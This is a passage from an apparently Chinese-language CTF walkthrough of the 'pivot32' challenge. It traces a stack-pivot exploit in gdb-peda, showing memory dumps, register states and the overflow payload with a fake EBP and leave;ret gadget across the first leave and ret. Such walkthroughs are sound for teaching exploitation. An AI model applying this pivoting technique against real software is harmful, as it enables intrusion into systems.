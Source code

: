 ```
0xffe7ec88:     0xf755cf10      0xf655d010
gdb-peda$ x/10w 0xf755cf0c
0xf755cf0c:     0x00000000      0x080485f0      0x080488c0      0x0804a024
0xf755cf1c:     0x080488c4      0x08048571      0x000001f7      0x080488c7
0xf755cf2c:     0x080486a3      0x0000000a
```
执行第一次 leave;ret 之前，我们看到 EBP 指向 fake ebp，即 `0xf755cf0c`，fake ebp 指向 主payload 的 ebp，而在 fake ebp 后面是 leave;ret 的地址 `0x0804889f`，即返回地址。

执行第一次 leave：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xf755cf0c --> 0x0 
ESP: 0xffe7ec6c --> 0x804889f (<pwnme+173>:     leave)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec6c --> 0x804889f (<pwnme+173>:    leave)
0004| 0xffe7ec70 --> 0xf755000a --> 0x0 
0008| 0xffe7ec74 --> 0x0 
0012| 0xffe7ec78 --> 0x2 
0016| 0xffe7ec7c --> 0x0 
0020| 0xffe7ec80 --> 0x1 
0024| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0028| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
```
EBP 的值 `0xffe7ec68` 被赋值给 ESP，然后从栈中弹出 `0xf755cf0c`，即 fake ebp 并赋值给 EBP，同时 ESP+4=`0xffe7ec6c`，指向第二次的 leave。

执行第一次 ret：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xf755cf0c --> 0x0 
ESP: 0xffe7ec70 --> 0xf755000a --> 0x0 
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```